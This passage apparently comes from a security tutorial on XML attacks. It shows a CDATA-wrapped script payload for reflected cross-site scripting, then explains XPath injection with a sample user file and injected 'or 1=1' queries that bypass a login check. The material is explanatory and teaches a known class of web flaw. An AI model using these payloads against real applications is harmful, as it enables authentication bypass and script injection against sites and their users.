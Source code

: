 ![](https://i.ibb.co/fX03JVs/Screenshot-2020-02-03-at-11-20-00-PM.png)

If you have observed above response, where requested value is reflacted in HTML page then you should try following

```xml
<uservalue>
<value>
<![CDATA[<script>document.write('XML Attacks');</script>]]>
</value>
</uservalue>
```
![](https://i.ibb.co/RT0CVsT/Screenshot-2020-02-03-at-11-22-31-PM.png)

### 2.2 XPATH Injection

- XPath Injection is an attack technique used to exploit applications that construct XPath (XML Path Language) queries from user-supplied input to query or navigate XML documents.

- It can be used directly by an application to query an XML document, as part of a larger operation such as applying an XSLT transformation to an XML document, or applying an XQuery to an XML document.

- The syntax of XPath bears some resemblance to an SQL query, and indeed, it is possible to form SQL-like queries on an XML document using XPath.

**user.xml**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<users>
	<user>
		<username>Ravi</username>
		<password>Admin123</password>
		<account>Admin</account>
	</user>
	<user>
		<username>Rohit</username>
		<password>R0Hi7</password>
		<account>Guest</account>
	</user>
</users>
```
An Xpath query will be as follows:
```xml
string(//user[username/text()='Ravi' and password/text()='Admin123']/account/text())
```

<img src="https://i.ibb.co/dM3mJf4/Screenshot-2020-03-17-at-6-33-46-PM.png" align="left" height="296" width="862" ><br>

Similar to SQL Injection we can manipulate the above query and inject XPath code and interfere the query result.
An Xpath SQL query will be as follows:

```
string(//user[username/text()='' or '1' = '1' and password/text()='' or '1' = '1']/account/text())
string(//user[username/text()='Ravi' and password/text()='' or '1' = '1' ]/account/text())
string(//user[username/text()='Ravi' and password/text()='' or '1' = '2' ]/account/text())
```
